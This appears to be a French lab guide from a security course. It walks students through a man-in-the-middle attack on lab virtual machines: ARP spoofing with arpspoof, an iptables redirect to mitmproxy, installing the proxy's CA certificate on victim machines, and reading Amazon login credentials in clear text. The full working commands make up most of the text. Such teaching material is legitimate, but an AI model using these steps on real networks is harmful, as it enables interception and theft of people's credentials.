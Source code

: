 ## ==> Nous allons refaire les mêmes manipulations sur les machines victimes

# IMPORTANT 2:
- Essayez de refaire les mêmes manipulations sur une machine victime.
- *Résultat :* ça ne fonctionne pas !
- *Solution* : Configurer le proxy de chacune des machines victimes en manuel pour pointer sur http://10.0.2.10 
- Revenir à l'interface et observer le traffic (*MACHINE ATTAQUANT*)
- Ouvrir le navigateur - page d'amazon (*MACHINE VICTIME*)
- Essayez de vous connecter (saisir votre username et password et connectez vous) (*MACHINE VICTIME*)
- Revenir à http://localhost:8081 (*MACHINE ATTAQUANT*)
- Dans l'onglet start, mettre le filtre sur amazon (*MACHINE ATTAQUANT http://localhost:8081*)
- Cherchez le verbe POST (*MACHINE ATTAQUANT - http://localhost:8081*)
- Observez le username et le password en texte claire (*MACHINE ATTAQUANT - http://localhost:8081*)

# IMPORTANT 3:
- Téléchargez le certificat en cliquant sur le bouton vert Get mitmproxy-ca-cert  (*MACHINE ATTAQUANT*)
- cd Downloads  (*MACHINE ATTAQUANT*)
- sudo cp mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt  (*MACHINE ATTAQUANT*)
- sudo update-ca-certificates  (*MACHINE ATTAQUANT*)
- cat mitmproxy-ca-cert.pem et copier (*MACHINE ATTAQUANT*)
- cd Downloads (*MACHINE VICTIME 1 ou 2 *)
- nano mitmproxy-ca-cert.pem et coller (*MACHINE VICTIME*)
- sudo cp mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt (*MACHINE VICTIME*)
- sudo update-ca-certificates  (*MACHINE VICTIME*)
## Autre méthode 
- scp mitmproxy-ca-cert.pem eleve@10.0.2.20:\tmp
- scp mitmproxy-ca-cert.pem eleve@10.0.2.30:\tmp
## Ensuite: 
- scp mitmproxy-ca-cert.pem eleve@10.0.2.20:\tmp
- cd /tmp
- sudo cp mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
  
![image](https://github.com/hrhouma/securite-logiciels-applications/assets/10111526/136346cb-7350-4d82-a459-6ee2ee0a2f23)

# Pour résumer : 
## Installer terminator dans la machine de l'attaquant et diviser en 4
- terminal 1 :  sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
- terminal 2 :  sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
- terminal 3 :  sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080
- terminal 4 :  sudo mitmproxy -p 8080
